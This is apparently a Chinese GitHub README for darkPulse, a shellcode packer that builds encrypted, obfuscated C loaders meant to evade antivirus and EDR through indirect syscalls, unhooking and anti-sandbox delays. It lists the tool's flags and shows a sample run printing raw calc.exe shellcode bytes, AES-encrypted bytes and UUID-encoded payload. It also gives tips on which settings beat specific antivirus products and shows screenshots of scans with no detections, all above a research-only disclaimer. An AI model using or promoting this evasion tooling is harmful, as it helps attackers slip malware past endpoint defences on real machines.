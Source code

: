 darkPulse是一个用go编写的shellcode Packer，用于生成各种各样的shellcode loader。

目前只实现了c语言的模板。

支持aes/xor加密，uuid/words混淆，支持间接syscall和unhook两种模式下的callback，fiber，earlybird三种加载方式。

间接sysacll使用了SysWhispers3的项目，链接：[klezVirus/SysWhispers3: SysWhispers on Steroids - AV/EDR evasion via direct system calls. (github.com)](https://github.com/klezVirus/SysWhispers3)

unhook使用了[自定义跳转函数的unhook方法 - root@Ev1LAsH ~ (killer.wtf)](https://killer.wtf/2022/01/19/CustomJmpUnhook.html)文中所讲述的方法，文中提到的github仓库https://github.com/trickster0/LdrLoadDll-Unhooking 只实现了64位下的demo，我在 [fdx-xdf/LdrLoadDll-Unhooking-x86-x64 (github.com)](https://github.com/fdx-xdf/LdrLoadDll-Unhooking-x86-x64) 完善了32位和64位通用的一段代码。

使用方法：

首先要配好gcc的环境，命令行运行`gcc -v`有反应即可

在实战中推荐使用-sandbox参数，针对不同机器情况大概会休眠40s
尽量使用aes+uuid的组合，针对不同的杀软多试试不同的混淆加密方式

```
      _            _    _____       _          
     | |          | |  |  __ \     | |         
   __| | __ _ _ __| | _| |__) |   _| |___  ___ 
  / _` |/ _` | '__| |/ /  ___/ | | | / __|/ _ \
 | (_| | (_| | |  |   <| |   | |_| | \__ \  __/
  \__,_|\__,_|_|  |_|\_\_|    \__,_|_|___/\___|                                               

                                  author fdx_xdf
                                  version 1.1
                                  2024.04

Usage:
  -i <path>: 原始格式 Shellcode 的路径
  -enc <encryption>: Shellcode加密方式 (默认: aes)
  -lang <language>: 加载器的语言 (默认: c)
  -o <output>: 输出文件 (默认: Program)
  -k <keyLength>: 加密的密钥长度 (默认: 16)
  -obf <obfuscation>: 混淆Shellcode以降低熵值 (默认: uuid)
  -f <framework>: 目标架构32位还是64位
  -sandbox <true/false>: 是否开启反沙箱模式 (默认: true)
  -unhook <true/false>: 是否开启unhook模式 (默认: false,使用间接syscall加载)
  -loading <loadingTechnique>: 请选择加载方式，支持callback, fiber, earlybird (默认: fiber)
  -debug  <true/false>: 是否打印shellcode中间加密/混淆过程(默认为 'false'，即不打印)
```

示例：

```
darkPulse.exe -i calc_shellcode.bin -f 32 -sandbox -unhook

      _            _    _____       _          
     | |          | |  |  __ \     | |         
   __| | __ _ _ __| | _| |__) |   _| |___  ___ 
  / _` |/ _` | '__| |/ /  ___/ | | | / __|/ _ \
 | (_| | (_| | |  |   <| |   | |_| | \__ \  __/
  \__,_|\__,_|_|  |_|\_\_|    \__,_|_|___/\___|   

                                  author fdx_xdf
                                  version 1.1
                                  2024.04

开始为您打包exe

原始shellcode:0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64, 0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c
, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0xc1
, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52, 0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48
, 0x01, 0xd1, 0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31
, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe4, 0x58
, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89
, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a, 0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a
, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00, 0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5, 0xa2, 0x56
, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72
, 0x6f, 0x6a, 0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00

[+] Generated AES key: 0x66, 0x4d, 0x72, 0x41, 0x70, 0x62, 0x37, 0x70, 0x4b, 0x5a, 0x68, 0x43, 0x62, 0x47, 0x69, 0x6d

[+] Generated IV (16-byte): 0x75, 0x4c, 0x73, 0x77, 0x44, 0x4b, 0x36, 0x62, 0x52, 0x53, 0x6b, 0x76, 0x64, 0x57, 0x62, 0x
32

[+] Using AES-128-CBC encryption

进行加密后的shellcode：0x17, 0x12, 0xa9, 0xb3, 0x8e, 0x84, 0x5b, 0x43, 0xd3, 0x93, 0x42, 0x09, 0x26, 0x6b, 0x16, 0x90, 0
xd9, 0xa0, 0x27, 0x18, 0x5a, 0x91, 0xc8, 0x15, 0xb3, 0x93, 0x4c, 0xf6, 0x65, 0x13, 0x10, 0x0c, 0x00, 0x81, 0xd6, 0xc9, 0
x4f, 0x45, 0x41, 0xa6, 0x5f, 0xc8, 0x69, 0x4e, 0x12, 0x2f, 0x04, 0x55, 0xf2, 0x54, 0x06, 0x15, 0x93, 0x72, 0xbd, 0x6d, 0
x4d, 0x40, 0x77, 0xba, 0x3d, 0x04, 0xb8, 0x9b, 0xcd, 0x6c, 0xe9, 0x08, 0x0f, 0x47, 0xeb, 0x38, 0x35, 0x6a, 0xb3, 0x7f, 0
xfc, 0xfe, 0xd2, 0x7c, 0x8b, 0xeb, 0x08, 0x1f, 0x33, 0x8d, 0xbf, 0xbb, 0x76, 0x53, 0x04, 0x10, 0x70, 0xf2, 0xa9, 0xb0, 0
xb9, 0x8a, 0x0c, 0xc3, 0xcb, 0xce, 0x7c, 0x21, 0x57, 0x11, 0x6f, 0x0c, 0x72, 0x1f, 0x8e, 0x0c, 0xc0, 0xe0, 0x06, 0x93, 0
xe9, 0x64, 0x1e, 0x1e, 0x06, 0x07, 0x16, 0x7d, 0x6f, 0xa0, 0x3e, 0x5d, 0x53, 0x91, 0xef, 0x94, 0x39, 0x84, 0x83, 0x0a, 0
xb4, 0x6e, 0xdd, 0xa8, 0x82, 0x38, 0x8a, 0x20, 0x9b, 0x40, 0x31, 0xaa, 0xb8, 0xd5, 0xe3, 0x60, 0x76, 0xc7, 0x5c, 0x98, 0
xbe, 0xba, 0xd5, 0x55, 0xe1, 0x2c, 0x0f, 0xf3, 0x6a, 0x47, 0x02, 0x03, 0xdd, 0xc3, 0xf0, 0x51, 0x64, 0x20, 0xe8, 0x74, 0
xcf, 0xac, 0x19, 0xbd, 0xf7, 0xae, 0x44, 0x53, 0x91, 0x60, 0x76, 0x36, 0xa0, 0xed, 0x75, 0x3a, 0xcb, 0x5a, 0xda, 0xeb, 0
xc5, 0x6f, 0x9d, 0x44, 0x8c, 0xd2, 0xbb, 0xc6, 0xd1, 0xe0, 0x7d, 0x48

[+] Generated UUIDs:"b3a91217-848e-435b-d393-4209266b1690",
"1827a0d9-915a-15c8-b393-4cf66513100c",
"c9d68100-454f-a641-5fc8-694e122f0455",
"150654f2-7293-6dbd-4d40-77ba3d04b89b",
"08e96ccd-470f-38eb-356a-b37ffcfed27c",
"1f08eb8b-8d33-bbbf-7653-041070f2a9b0",
"c30c8ab9-cecb-217c-5711-6f0c721f8e0c",
"9306e0c0-64e9-1e1e-0607-167d6fa03e5d",
"94ef9153-8439-0a83-b46e-dda882388a20",
"aa31409b-d5b8-60e3-76c7-5c98bebad555",
"f30f2ce1-476a-0302-ddc3-f0516420e874",
"bd19accf-aef7-5344-9160-7636a0ed753a",
"ebda5acb-6fc5-449d-8cd2-bbc6d1e07d48",

正在为您生成模板文件: Program.c

编译成功: Program.exe
```

即在当前目录下生成 Program.exe

注意：syscall下的earlybird方式由于某些bug并没有使用间接syscall方式加载，尽量不要使用，另外xor+uuid的特征过于明显，尽量不要使用。

目前实现效果如下：

微步云沙箱无检出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1711596621444-4b4ab40f-7327-481f-a5f8-ca2d39330db6.png#averageHue=%23a0dcba&clientId=u723e99f6-9ffc-4&from=paste&height=911&id=u10f5a780&originHeight=1367&originWidth=2549&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=218236&status=done&style=none&taskId=u85e7150f-15a5-4768-a501-f4ea03a3050&title=&width=1699.3333333333333)

360（未开核晶）：无检出

![image](https://github.com/fdx-xdf/goPacker/assets/117912115/c3dcf083-609e-4b55-87c1-8311e5d28a40)

火绒：无检出

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1712452727509-f3c2d4b3-90ab-448d-9335-d8ac90a3a2a3.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)

360（开启核晶）：无检出（使用syscall和unhook两种方式生成的exe均成功绕过核晶）

![image.png](https://cdn.nlark.com/yuque/0/2024/png/40360538/1712553684319-6e2573f1-7d58-4c36-9f92-4dba958a67f5.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_1125%2Climit_0)

## 更新日志

2024.5.1	优化了错误提示，解决了部分bug，优化了unhook模板，新增debug模式，可以选择是否打印中间加密/混淆过程

## to do list:

- go模板
- 更多加密算法
- 分离加载
- ~~- unhook~~
- .....

## 免责声明

本项目仅用安全研究的学习交流和研究，强烈不建议您用于任何的实际途径（包括黑灰产交易、非法渗透攻击、割韭菜），网络不是法外之地！如果您使用该工具则应该自觉遵守以上要求。

如果遇到问题可以提交issue，也可以通过企鹅号联系我：MTM1MDE0MTk0MA==


